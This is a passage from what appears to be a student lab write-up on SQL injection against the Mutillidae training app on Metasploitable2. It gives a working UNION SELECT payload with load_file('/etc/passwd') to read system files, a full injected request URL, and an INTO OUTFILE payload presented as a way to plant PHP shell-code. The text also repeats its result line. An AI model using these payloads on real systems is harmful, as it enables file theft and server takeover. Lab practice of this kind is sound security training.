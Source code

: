 ![image](https://github.com/MaheshS03/EH-Ex-08/assets/128498431/e1399124-38b6-4a83-8ef1-256d19677de5)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/MaheshS03/EH-Ex-08/assets/128498431/c4fee8c7-5f83-4f3f-a1d6-3e5ac848e30b)


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).





## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
